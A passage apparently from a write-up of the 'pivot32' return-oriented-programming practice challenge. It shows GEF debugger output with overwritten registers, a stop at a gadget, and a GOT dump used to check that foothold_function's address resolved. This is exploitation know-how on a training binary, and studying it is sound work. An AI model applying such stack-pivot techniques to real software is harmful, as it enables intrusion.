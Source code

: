 Debug, and see if the address has been updated properly

```asm
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0x0804a024  →  0xf7ecf77d  →  <foothold_function+0> push ebp
$ebx   : 0x0       
$ecx   : 0xffffffff
$edx   : 0xffffffff
$esp   : 0xf7cc8f1c  →  "shed\n"
$ebp   : 0x42424242 ("BBBB"?)
$esi   : 0xf7eb5000  →  0x001ead6c
$edi   : 0xf7eb5000  →  0x001ead6c
$eip   : 0x0804882d  →  <usefulGadgets+1> ret 
$eflags: [zero carry parity adjust SIGN trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063 
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xf7cc8f1c│+0x0000: "shed\n"	 ← $esp
0xf7cc8f20│+0x0004: 0x0000000a ("\n"?)
0xf7cc8f24│+0x0008: 0x00000000
0xf7cc8f28│+0x000c: 0x00000000
0xf7cc8f2c│+0x0010: 0x00000000
0xf7cc8f30│+0x0014: 0x00000000
0xf7cc8f34│+0x0018: 0x00000000
0xf7cc8f38│+0x001c: 0x00000000
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
    0x8048825 <uselessFunction+14> push   0x1
    0x8048827 <uselessFunction+16> call   0x8048510 <exit@plt>
    0x804882c <usefulGadgets+0> pop    eax
 →  0x804882d <usefulGadgets+1> ret    
[!] Cannot disassemble from $PC
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "pivot32", stopped 0x804882d in usefulGadgets (), reason: SINGLE STEP
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x804882d → usefulGadgets()
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  got

GOT protection: Partial RelRO | GOT functions: 10
 
[0x804a00c] read@GLIBC_2.0  →  0xf7dbbb60
[0x804a010] printf@GLIBC_2.0  →  0xf7d1a2a0
[0x804a014] free@GLIBC_2.0  →  0x80484e6
[0x804a018] malloc@GLIBC_2.0  →  0xf7d4cd50
[0x804a01c] puts@GLIBC_2.0  →  0xf7d37c30
[0x804a020] exit@GLIBC_2.0  →  0x8048516
[0x804a024] foothold_function  →  0xf7ecf77d
[0x804a028] __libc_start_main@GLIBC_2.0  →  0xf7ce4df0
[0x804a02c] setvbuf@GLIBC_2.0  →  0xf7d38420
[0x804a030] memset@GLIBC_2.0  →  0xf7e17ad0
```
